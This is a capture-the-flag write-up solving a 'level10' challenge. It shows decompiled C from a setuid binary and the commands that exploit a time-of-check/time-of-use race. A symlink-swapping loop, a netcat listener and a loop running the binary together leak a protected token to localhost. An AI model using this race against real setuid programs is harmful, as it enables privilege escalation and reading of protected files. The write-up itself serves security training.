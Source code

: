 In the home directory, there is a program named 'level10' and a file named 'token.'

```bash
-rwsr-sr-x+ 1 flag10 level10 10817 Mar 5 2016 level10
-rw------- 1 flag10 flag10 26 Mar 5 2016 token
```

The user level10 is unable to read 'token,' and the program has a setuid to flag10.

In the binary of the file, we can see:

- Test the access to the file:

```c
pcVar6 = in_stack_00000008[1];
param1 = in_stack_00000008[2];
iVar2 = access(in_stack_00000008[1], 4);
```

- Then connect to the address:

```c
local_24.sa_data._2_4_ = inet_addr(param1);
uVar1 = htons(0x1b39);
local_24.sa_data._0_2_ = uVar1;
iVar3 = connect(iVar2, &local_24, 0x10);
```

- And finally open the file:

```c
iVar3 = open(pcVar6, 0);
if (iVar3 == -1) {
  puts("Damn. Unable to open file");
  /* WARNING: Subroutine does not return */
  exit(1);
}
__n = read(iVar3, local_1024, 0x1000);
```

The offset between the verification of the read-write and the opening of the file allows us
the time to change the file to open another file than the one verified.

To solve this exercise, I used several commands to achieve the race condition:

First, I need to listen at port 6969:

```bash
alias listen="nc -l 6969"
```

Then I need to set a link to a file that can be read by the level10 user and set it back to the token:

```bash
alias race="touch /tmp/dummy; while true; do ln -sf /tmp/dummy /tmp/link && ln -sf token /tmp/link; done"
```

I need to start the program 'level10' to send the value of 'token' to 127.0.0.1:

```bash
alias send="while true; do ./level10 /tmp/link 127.0.0.1; done"
```

The final commands combines everything and executes parallel 'listen,' 'send,' and 'race' in two diferent terminal to easyly get the information.